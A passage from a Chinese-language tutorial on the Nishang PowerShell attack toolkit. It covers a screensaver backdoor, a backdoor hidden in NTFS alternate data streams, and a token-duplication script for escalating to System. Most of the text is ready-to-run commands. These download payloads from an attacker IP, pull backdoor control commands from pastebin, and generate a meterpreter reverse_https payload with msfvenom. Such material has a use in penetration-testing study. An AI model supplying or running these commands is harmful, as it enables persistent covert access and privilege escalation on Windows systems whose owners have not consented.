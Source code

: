 这个脚本可以帮助我们利用Windows的屏保来留下一个隐藏的后门 

执行方式：



```
PS &gt;Add-ScrnSaveBackdoor -Payload "powershell.exe -ExecutionPolicy Bypass -noprofile -noexit -c Get-Process" //使用这条语句可以执行我们自己的Payload
PS &gt;Add-ScrnSaveBackdoor -PayloadURL http://192.168.254.1/Powerpreter.psm1 -Arguments HTTP-Backdoor 
http://pastebin.com/raw.php?i=jqP2vJ3x http://pastebin.com/raw.php?i=Zhyf8rwh start123 stopthis //利用这条命令可以从powershell执行一个HTTP-Backdoor
PS &gt;Add-ScrnSaveBackdoor -PayloadURL http://192.168.254.1/code_exec.ps1  //还可以使用msfvenom先生成一个powershell (./msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.254.226 -f powershell)，然后利用这条命令返回一个meterpreter
```

其他具体的参数的意思和我们上面介绍的一些后门是类似的



```
PayloadURL 指定我们需要下载的脚本地址
Arguments 指定我们要执行的函数以及相关参数
```

Invoke-ADSBackdoor

这个脚本是使用NTFS数据流留下一个永久性后门。其实，由NTFS数据流带来的一些安全问题的利用并不少见了（如：利用NTFS数据流在Mysql UDF提权中创建lib/plugin目录），大家可以参考《NTFS ADS带来的WEB安全问题》 

这个脚本可以向ADS中注入代码并且以普通用户权限运行 

执行方式：



```
PS &gt;Invoke-ADSBackdoor -PayloadURL http://192.168.254.1/Powerpreter.psm1 -Arguments HTTP-Backdoor "http://pastebin.
com/raw.php?i=jqP2vJ3x http://pastebin.com/raw.php?i=Zhyf8rwh start123 stopthis
```

这个脚本主要有两个参数，在上面介绍其他后门当中已经说明了，这里是类似的 

需要说明的是，执行后它会在AppData的目录下建立一个ads并把我们的Payload注入进去，如果我们希望在cmd下看到我们这里建立的ads，需要使用：dir /a /r

**4.客户端**

对于这一部分的脚本，我就不再赘述了，因为网上早已经有了对于这一部分脚本的介绍说明： 

使用Powershell Client进行有效钓鱼

**5.权限提升**

Enable-DuplicateToken

这个脚本可以帮助我们在已经获得了一定权限的情况下，使我们提升到System权限。 

执行方式

```
PS &gt; Enable-DuplicateToken
```
